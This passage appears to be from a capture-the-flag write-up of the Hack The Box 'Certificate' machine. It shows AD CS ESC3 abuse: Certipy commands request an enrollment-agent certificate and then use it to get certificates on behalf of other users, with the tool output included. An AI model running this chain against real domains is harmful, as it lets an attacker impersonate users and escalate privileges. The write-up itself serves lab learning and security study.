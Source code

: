 ```json
            "CERTIFICATE.HTB\\Domain Users",
            "CERTIFICATE.HTB\\Enterprise Admins"
          ]
        }
      },
      "[+] User Enrollable Principals": [
        "CERTIFICATE.HTB\\Domain Users"
      ],
      "[*] Remarks": {
        "ESC3 Target Template": "Template can be targeted as part of ESC3 exploitation. This is not a vulnerability by itself. See the wiki for more details. Template requires a signature with the Certificate Request Agent application policy."
      }
    },

```

We can see the the Delegated-CRA certificate is an enrollment agent certificate, with which we can enroll on behalf of other users.
The [certipy wiki](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc3-enrollment-agent-certificate-template) details the attack flow.
Request the delegated
```bash
certipy req -u lion.sk -p $pass -dc-ip 10.10.11.71 -target certificate.htb -ca certificate-ltd-ca -template delegated-cra 
```

Request on behalf
```bash
certipy req -u lion.sk -p $pass -dc-ip 10.10.11.71 -target certificate.htb -ca certificate-ltd-ca -template SignedUser  -pfx $lionsk_cert -on-behalf-of 'Administrator'

[*] Requesting certificate via RPC
[*] Request ID is 24
[-] Got error while requesting certificate: code: 0x80094812 - CERTSRV_E_SUBJECT_EMAIL_REQUIRED - The email name is unavailable and cannot be added to the Subject or Subject Alternate name.

```

And that delightfully fails due to the email name being unavailable. So what other user might be valuable to try? The only one that is a part of a group that we don't have real access too that seems exploitable is `Ryan.K` who in the `Domain Storage Managers` which, on its surface sounds great and isn't a default group.

```bash
certipy  req -u 'lion.sk' -p $pass -dc-ip 10.10.11.71 -target certificate.htb -ca certificate-ltd-ca -template 'SignedUser' -pfx lion.sk.pfx -on-behalf-of ryan.k
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 23
[*] Successfully requested certificate
[*] Got certificate with UPN 'ryan.k@certificate.htb'
[*] Certificate object SID is 'S-1-5-21-515537669-4223687196-3249690583-1117'
[*] Saving certificate and private key to 'ryan.k.pfx'
[*] Wrote certificate and private key to 'ryan.k.pfx'
```

